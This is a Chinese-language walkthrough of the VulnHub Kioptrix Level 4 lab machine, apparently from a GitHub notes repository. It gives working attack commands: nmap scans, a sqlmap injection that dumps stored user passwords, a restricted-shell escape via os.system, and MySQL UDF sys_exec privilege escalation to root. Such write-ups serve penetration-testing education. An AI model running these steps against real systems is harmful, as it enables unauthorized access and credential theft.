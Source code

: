 # Kioptrix4-WalkThrough

- 笔记内容由 [xidaner](https://github.com/xidaner) 提供,我仅作部分内容修改

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-level-13-4,25/

**Description**

```
Again a long delay between VMs, but that cannot be helped. Work, family must come first. Blogs and hobbies are pushed down the list. These things aren’t as easy to make as one may think. Time and some planning must be put into these challenges, to make sure that:

1. It’s possible to get root remotely [ Edit: sorry not what I meant ]

1a. It’s possible to remotely compromise the machine

    Stays within the target audience of this site

    Must be “realistic” (well kinda…)

    Should serve as a refresher for me. Be it PHP or MySQL usage etc. Stuff I haven’t done in a while.

I also had lots of troubles exporting this one. So please take the time to read my comments at the end of this post.

Keeping in the spirit of things, this challenge is a bit different than the others but remains in the realm of the easy. Repeating myself I know, but things must always be made clear: These VMs are for the beginner. It’s a place to start.

I’d would love to code some small custom application for people to exploit. But I’m an administrator not a coder. It would take too much time to learn/code such an application. Not saying I’ll never try doing one, but I wouldn’t hold my breath. If someone wants more difficult challenges, I’m sure the Inter-tubes holds them somewhere. Or you can always enroll in Offsec’s PWB course. *shameless plug

-- A few things I must say. I made this image using a new platform. Hoping everything works but I can’t test for everything. Initially the VM had troubles getting an IP on boot-up. For some reason the NIC wouldn’t go up and the machine was left with the loopback interface. I hope that I fixed the problem. Don’t be surprised if it takes a little moment for this one to boot up. It’s trying to get an IP. Be a bit patient. Someone that tested the image for me also reported the VM hung once powered on. Upon restart all was fine. Just one person reported this, so hoping it’s not a major issue. If you plan on running this on vmFusion, you may need to convert the imagine to suit your fusion version.

-- Also adding the VHD file for download, for those using Hyper-V. You guys may need to change the network adapter to “Legacy Network Adapter”. I’ve test the file and this one seems to run fine for me… If you’re having problems, or it’s not working for any reason email comms[=]kioptrix.com

Thanks to @shai_saint from www.n00bpentesting.com for the much needed testing with various VM solutions.

Thanks to Patrick from Hackfest.ca for also running the VM and reporting a few issues. And Swappage & @Tallenz for doing the same. All help is appreciated guys

So I hope you enjoy this one.

The Kioptrix Team

Source: http://www.kioptrix.com/blog/?p=604

**Note: Just a virtual hard drive. You'll need to create a new virtual machine & attach the existing hard drive**
```

**知识点**
- SQL 注入
- mysql udf 提权

---

# 前期-信息收集
## nmap

开机后我们发现 这个用户名和密码是不知道的

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/1.png)

在虚拟机中要先接入到和 kali 一个网段中.然后我们要知道这个虚拟机的 ip 地址,就要用到 IP 探活.

```
nmap -sP <你虚拟机网卡的网段> /24
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/2.png)

可以发现网段中一共有 4 个 ip 地址,除去本机和 kali 剩下的就是靶机的 ip 地址

---

## 扫描开放端口

```
nmap 192.168.17.130
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/3.png)

可以发现,目标打开了 80 端口

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/4.png)

目测可以注入,尝试了简单 payload,下面选择直接跑 sqlmap

---
---
---

# 中期-漏洞利用
## sql注入

代码:

```
sqlmap -u http://192.168.17.130/checklogin.php
--data="myusername=admin&mypassword=123&Submit=Login" -p mypassword --dump -T members -D members
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/9.png)

```
 id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
```

---
---
---

# 后期-拿shell-提权
## 尝试 SSH 登陆

输入用户名和密码登陆进去

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/10.png)

这里用了 echo 命令获取交互 shell
```
echo os.system("/bin/bash")
whoami
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/11.png)

查看服务器下的文件
```
cd /var/www/
cat checklogin.php
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/12.png)

---

## 登陆 MYSQL

```
mysql -u root -p
```

---

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/13.png)

## mysql UDF 提权

在 mysql 中输入
```
select sys_exec('usermod -a -G admin john');
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/18.png)

在我们退出去后,尝试登陆到 root

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/19.png)

`whoami` 确认获取 `root`

提权成功,感谢 Kioptrix Team 制作靶机

---

# 补充

**扫描 smb**

目标开放 139 445 这意味着可能可以枚举用户名

`nmap -sC --script smb-enum-users.nse <目标IP>`

`enum4linux <目标IP>`

这2个命令都可以

**udf 提权**

需要 udf 提权,需要检查 mysql 是否以 root 权限运行
```
ls -la /usr/lib/lib_mysqludf_sys.so
```
